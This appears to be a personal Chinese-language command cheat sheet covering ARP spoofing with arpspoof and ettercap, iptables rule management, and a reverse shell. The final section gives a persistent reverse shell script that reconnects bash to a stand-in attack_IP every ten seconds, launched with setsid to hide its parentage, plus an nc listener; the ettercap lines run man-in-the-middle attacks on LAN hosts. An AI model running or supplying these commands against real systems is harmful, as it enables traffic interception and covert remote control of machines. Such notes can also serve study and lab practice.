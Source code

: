 # arp

## arpspoof
1. install
```shell
apt install dsniff
```
2. 开启IP转发
```shell
# Linux root user
echo 1 >/proc/sys/net/ipv4/ip_forward
```
3. 查看IP转发
```shell
sudo sysctl -a | grep forward
```

## ettercap
```shell
# arp spoof
sudo ettercap -T -M arp /192.168.31.1// /192.168.31.68//
#
sudo ettercap -T -M arp:remote /192.168.31.1// /192.168.31.68//
```
## others
* driftnet
* upx
* od

# iptables

> https://www.digitalocean.com/community/tutorials/how-to-list-and-delete-iptables-firewall-rules

## 显示规则
```shell
sudo iptables -vL # 显示iptables规则,--line-number可以显示规则编号,用于指定删除某条规则
```

## 删除一条规则
```shell
sudo iptables -D # 用于删除
sudo iptables -D INPUT # 删除所有INPUT规则
sudo iptables -D INPUT 1 # 删除INPUT下第一条规则,编号来自--line-number
```

## 删除所有iptables规则
```shell
#开放所有端口
sudo iptables -P INPUT ACCEPT
sudo iptables -P FORWARD ACCEPT
sudo iptables -P OUTPUT ACCEPT
sudo iptables -F
#Oracle自带的Ubuntu镜像默认设置了Iptable规则，关闭它
apt-get purge netfilter-persistent
#删除配置文件后需要重启
rm -rf /etc/iptables && reboot
```

## 添加防火墙规则
```shell
iptables -A INPUT -s 192.168.1.0/24 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
```

## 其他
```shell
sudo iptables -Z # 用于清除规则上的数据统计
sudo iptables -Z INPUT # 删除所有INPUT规则上的数据统计
sudo iptables -Z INPUT 1 # 删除INPUT下第一条规则上的数据统计,编号来自--line-number
```

## 实战例子
```shell
# 禁止该IP对于22端口访问
sudo iptables -A INPUT -s 180.101.88.249 -p tcp --dport 22 -j DROP

# 只允许固定IP对22端口访问，这是规则链是什么意思就很明确了，先过第一条检查该IP，在走第二条规则
# 如果两条规则反过来就错了
sudo iptables -A INPUT -p tcp --dport 22 -s 允许的IP地址 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
```

# reverse shell

    启用tcp连接主机，每隔10秒连接一次。当主机开启监听就直接向靶机发送指令。
    主机不在连接中，靶机上也看不到tcp信息，但是能看到进程信息。
    所以要将启动的进程的父进程设置为init(1)，用setsid命令将程序执行启动
1. 在靶机上启动反向shell

    创建如下文件reverse_shell.sh
```shell
#!/bin/bash

while true;do bash -i 2>/dev/null &> /dev/tcp/attack_IP/attack_port 0>&1;sleep 10; done;
```
    启动该程序
```shell
setsid reverse_shell.sh
```

2. 在攻击机器上接收
```shell
nc -lvp attack_port
```